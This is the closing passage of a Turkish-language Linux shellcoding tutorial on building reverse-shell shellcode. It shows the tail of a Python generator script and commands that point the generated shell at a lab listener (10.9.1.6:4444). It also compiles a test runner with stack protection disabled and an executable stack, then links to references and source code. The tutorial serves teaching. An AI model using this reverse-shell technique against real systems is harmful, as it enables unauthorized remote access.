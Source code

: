 ```py
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Dinleyiciyi hazırlayın, betiği çalıştırın, kabuk kodunu test programımıza kopyalayın, derleyin ve çalıştırın:        

```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](./images/14/2021-10-16_17-38.png){width="80%"}       

Yani, kabuk kodumuz mükemmel bir şekilde çalıştı :)     

İşte bu, örneğin kendi kabuk kodunuzu nasıl oluşturacağınızı gösteriyor.    

[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[Shellcoding in Linux by exploit-db](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)              
[my intro to x86 assembly](https://cocomelonc.github.io/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](https://cocomelonc.github.io/tutorial/2021/10/08/malware-analysis-2.html)           
[ip](https://man7.org/linux/man-pages/man7/ip.7.html)                
[socket](https://man7.org/linux/man-pages/man2/socket.2.html)           
[connect](https://man7.org/linux/man-pages/man2/connect.2.html)             
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)         
[first part](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)                   
[Github'taki kaynak kod](https://github.com/cocomelonc/2021-10-17-linux-shellcoding-2)         
